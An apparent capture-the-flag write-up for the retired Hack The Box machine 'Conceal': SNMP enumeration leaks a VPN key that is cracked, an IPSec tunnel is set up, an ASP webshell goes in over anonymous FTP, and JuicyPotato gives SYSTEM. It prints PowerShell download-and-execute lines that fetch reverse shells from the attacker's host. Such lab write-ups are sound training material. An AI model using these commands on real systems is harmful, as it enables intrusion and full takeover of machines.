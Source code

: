 # Conceal

This is the write-up for the box Conceal that got retired at the 18th May 2019.
My IP address was 10.10.14.10 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.116    conceal.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/conceal.nmap 10.10.10.116
```

```markdown
Nmap scan report for 10.10.10.116
Host is up (0.048s latency).
All 1000 scanned ports on 10.10.10.116 are filtered
```

There is no port open so we need to do different scans to get any information. 

Full TCP port scan for all 65535 ports:
```markdown
nmap -p- -o nmap/conceal-alltcp.nmap 10.10.10.116
```

UDP scan:
```markdown
nmap -sU -o nmap/conceal-1000udp.nmap 10.10.10.116
```

```markdown
Not shown: 999 open|filtered ports
PORT    STATE SERVICE
500/udp open  isakmp
```

### Checking SNMP

Before we get into the results of the scans we can check for SNMP strings manually. We can use **snmpwalk** or a more verbose tool called **snmp-check**:
```markdown
snmp-check 10.10.10.116
```

We get a lot of interesting results that I put in a file in this folder called **conceal-snmp_check.txt** but here is the interesting stuff:
- IKE VPN password PSK - 9C8B1A372B1878851BE2C097031B6E43
- Windows Version 6.3 (Build 15063)
- User: Destitute
- Network Interfaces with IKEv2, PPTP, L2TP
- Listening TCP ports: 
  - 21 - FTP 
  - 80 - HTTP 
  - 135 - Microsoft RPC
  - 139 - NetBIOS
  - 445 - SMB
- Listening UDP ports: 
  - 123 - NTP
  - 161 - SNMP
  - 500 - IPSec / IKE
  - 4500 - IPSec NAT Traversal
  - 5050 - Unknown
  - 5353 - Multicast DNS
  - 5355 - LLMNR
  - 137 - NetBIOS Name Service
  - 138 - NetBIOS Datagram Service
  - 1900 - Microsoft SSDP (UPnP)

## Checking IPSec

The fact that the UDP port 500 is open and we get this IKE VPN password PSK means we need to look further into **IPSec VPN**.
First we try to crack the password manually or search for it on hashes.org and it says:
> Dudecake1!

We can test if we get a response back from the IKE service:
```markdown
ike-scan -M 10.10.10.116
```

```markdown
10.10.10.116    Main Mode Handshake returned
        HDR=(CKY-R=befc472fa43aa6a0)
        SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration(4)=0x00007080)
        VID=1e2b516905991c7d7c96fcbfb587e46100000009 (Windows-8)
        VID=4a131c81070358455c5728f20e95452f (RFC 3947 NAT-T)
        VID=90cb80913ebb696e086381b5ec427b1f (draft-ietf-ipsec-nat-t-ike-02\n)
        VID=4048b7d56ebce88525e7de7f00d6c2d3 (IKE Fragmentation)
        VID=fb1de3cdf341b7ea16b7e5be0855f120 (MS-Negotiation Discovery Capable)
        VID=e3a5966a76379fe707228231e5ce8652 (IKE CGA version 1)
```

We need to focus on the **SA (Security Association)** that is:
- Encrypted in 3DES
- Hashed in SHA1
- Authentication with a PSK that we have
- Life Duration of it is 0x00007080 = 28800 seconds = 8 hours

Now that we have all the important information we need a IPSec Tunneling program called **strongSwan**.

### Configuring strongSwan

In the `manpage` for `ipsec.secrets` we find an example how to configure an IPSec tunnel:
```markdown
# /etc/ipsec.secrets - strongSwan IPsec secrets file
192.168.0.1 %any : PSK "v+NkxY9LLZvwj4qCC2o/gGrWDF2d21jL"
```

So we add this line to the **/etc/ipsec.secrets** file:
```markdown
10.10.10.116 %any : PSK "Dudecake1!"
```

Whenever we make an IPSec connection through stongSwan to the box it uses this PSK.

Next we need to configure **/etc/ipsec.conf** and the help for that can be found in `man ipsec.conf`.
Everything we configure here is with information we already have:
```markdown
conn Conceal
        type=transport
        keyexchange=ikev1
        left=10.10.14.10
        leftprotoport=tcp
        right=10.10.10.116
        rightprotoport=tcp
        authby=psk
        esp=3des-sha1
        ike=3des-sha1-modp1024
        ikelifetime=8h
        fragmentation=yes
        auto=start
```

Starting the IPSec VPN connection:
```markdown
ipsec start --nofork
```

We are now connected and can verify that by doing a port scan on port 445 from which we know that it should be open:
```markdown
nmap -sT -p 445 -Pn 10.10.10.116
```

```markdown
PORT    STATE SERVICE
445/tcp open  microsoft-ds
```

Now this port says open and we can enumerate the running services we know from the SNMP scan.

## Checking FTP and HTTP (Port 21 and 80)

Anonymous login on FTP works with no files in there but we can upload files to it.

If we browse to the web page we see the IIS default page and after some enumerating paths we find **/uploads** where it shows the files we uploaded to FTP.
As **ASPX** does not work but **ASP** does we can upload an .asp file to get a webshell and have command execution.

We want to execute a reverse shell. I will take _Invoke-PowerShellTcp.ps1 from Nishang_ that I just call _revshell.ps1_ and it will listen on my IP and port 9001:
```markdown
powershell -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.10/revshell.ps1')"
```

We now started a reverse shell session with the user _Destitute_ and can read the first flag.

## Privilege Escalation

If we look at the privileges of the user _Destitute_ with `whoami /all` we can see the following:
```markdown
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

The **SeImpersonatePrivilege** privilege is enabled and this is what we want to abuse with the local privilege escalation tool **JuicyPotato**.

When uploading the JuicyPotato.exe file over FTP we need to set the FTP mode to `binary` and then `put JuicyPotato.exe`.
We create a .bat file with the same command as we invoked into the webshell to spawn a new reverse shell with higher privileges:
```bat
REM This is rootshell.bat

powershell -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.10/rootshell.ps1')"
```

After uploading the file we can execute JuicyPotato.exe:
```markdown
.\JuicyPotato.exe -t * -p C:\Users\destitute\Documents\revshell.bat -l 9002 -c '{e60687f7-01a1-40aa-86ac-db1cbf673334}'
```

Normally it tries the CLSID of BITS but that won't escalate our privileges so we take the **CLSID of wuauserv** which is _{e60687f7-01a1-40aa-86ac-db1cbf673334}_.
A list of CLSID can be found here: [JuicyPotato CLSID list](https://ohpe.it/juicy-potato/CLSID/Windows_10_Enterprise/).

When the program successfully runs, our second reverse shell spawns a shell with the user _NT Authority\SYSTEM_ and we rooted the box!
